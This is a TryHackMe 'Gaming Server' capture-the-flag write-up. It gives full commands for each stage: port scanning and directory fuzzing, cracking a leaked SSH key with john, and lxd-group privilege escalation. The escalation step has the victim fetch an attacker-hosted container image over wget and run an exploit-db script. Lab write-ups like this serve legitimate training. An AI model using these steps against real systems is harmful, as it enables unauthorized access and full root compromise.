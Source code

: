 Tryhackme - Gaming server

Writeup:
*Enumeration:*

I began with a simple nmap scan for port discovery and services running in the respective ports

export IP={MACHINE_IP}
nmap -sVC -n -Pn -p- $IP --min-rate 5000

After the scan i decided to do an ffuf for directory enumeration

ffuf -w /usr/share/wordlists/wfuzz/general/common.txt -u http://$IP/FUZZ -maxtime 50

I checked out the /uploads/ folder and the /secret/ folder as they seemed juicy😋😋

The uploads folder gave me a dictionary file 'dict.lst' which contained a list of passwords.
The secret folder was an ssh private key RSA encrypted called 'secretkey'

As well doing a Ctrl+U displayed a comment which seemingly is a potential username. We'll see😂

// john, please add some actual content to the site! lorem ipsum is horrible to look at. //

*Decrypting the ssh key:*

First i converted the ssh key usig ssh2john

$/opt/JohnTheRipper/run/ssh2john secretkey > id_rsa.key

Then i conducted a bruteforce with join together with the wordlist found in the uploads folder

$john --wordlists=dict.lst id_rsa.key

Once we get the password, we can ssh into the machine
Note; Dont forget to run chmod 600 on the ssh key for you to use the key with ssh(Ensures only the owner has full read and write access)

$ssh -i secretkey john@$IP

*Privilege Escalation:*

Once i got into the machine, i did privilege escalation enumeration, ran linpeas but there was nothing much from that. But something caught my eyes, hear this☺️
Linpease gave a list of user id,s and i saw user was in lxd group. This is interesting..huuhh!!
Running id on the machine gave the same results as well

Doing a little digging and researching about lxd, i found out lxd is a linux container manager, and can be used to mount the root folder on the host machine
You can go through this https://www.hackingarticles.in/lxd-privilege-escalation/ which guides you.

On your own machine run lxd-alpine-builder to make a small alpine linux container

$git clone https://github.com/saghul/lxd-alpine-builder.git

cd into the cloned directory and run the bild-alpine file, and it will generate a tar.gz file that contains the linux container.

So I needed to deliver and run this file on the victim machine so i created a http server on my host machine

python -m http.server 8000

wget MACHINE_IP:8000/file.tar.gz  (this on the victim machine)

Doing further research on exploit_db i found a lxd privilege escalation script whih as well downloaded from the host via the http server.

I made the bash scrip executable and ran it.

./lxd_privesc.sh -f alpine-v3.13-x86_64-20210218_0139.tar.gz

This escalated our privileges and as well mounted the root directory to our lxd container.
So finally you can change directory to the root directory of the machine and read the flags.

Happy hacking!!🥳🥳
